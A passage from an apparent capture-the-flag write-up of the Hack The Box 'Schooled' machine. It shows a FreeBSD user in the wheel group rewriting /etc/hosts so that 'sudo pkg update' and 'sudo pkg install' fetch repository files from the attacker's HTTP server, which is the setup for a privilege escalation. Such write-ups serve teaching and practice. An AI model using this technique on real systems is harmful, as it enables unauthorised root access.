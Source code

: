     jamie@Schooled:~ $ grep -v "^#" /etc/hosts
    ::1                     localhost localhost.my.domain
    127.0.0.1               localhost localhost.my.domain Schooled schooled.htb moodle.schooled.htb
    192.168.1.14            devops.htb
    

More interesting, members of the wheel group can edit `/etc/hosts`, and jamie
is in the wheel group:

    
    
    jamie@Schooled:~ $ ls -l /etc/hosts
    -rw-rw-r--  1 root  wheel  1098 Mar 17 15:47 /etc/hosts
    jamie@Schooled:~ $ id
    uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
    

I’ll update the IP to by mine, and run the `update` command with an HTTP
server listening on my VM:

    
    
    jamie@Schooled:~ $ sudo pkg update
    Updating FreeBSD repository catalogue...
    pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
    pkg: http://devops.htb/packages/meta.txz: Not Found
    repository FreeBSD has no meta file, using default settings
    pkg: http://devops.htb/packages/packagesite.txz: Not Found
    Unable to update repository FreeBSD
    Error updating repositories!
    

The server sees three requests (all 404):

    
    
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.234 - - [06/Apr/2021 08:18:57] code 404, message File not found
    10.10.10.234 - - [06/Apr/2021 08:18:57] "GET /packages/meta.conf HTTP/1.1" 404 -
    10.10.10.234 - - [06/Apr/2021 08:18:57] code 404, message File not found
    10.10.10.234 - - [06/Apr/2021 08:18:57] "GET /packages/meta.txz HTTP/1.1" 404 -
    10.10.10.234 - - [06/Apr/2021 08:18:58] code 404, message File not found
    10.10.10.234 - - [06/Apr/2021 08:18:58] "GET /packages/packagesite.txz HTTP/1.1" 404 -
    

Similarly, the `install` command will contact me as well, requesting the same
three files:

    
    
    jamie@Schooled:~ $ sudo pkg install pwned
    Updating FreeBSD repository catalogue...
    pkg: http://devops.htb/packages/meta.txz: Not Found
    repository FreeBSD has no meta file, using default settings
    pkg: http://devops.htb/packages/packagesite.txz: Not Found
    Unable to update repository FreeBSD
    Error updating repositories!
    

These files tell the client (Schooled) about the packages that the server is
hosting, versions, etc.
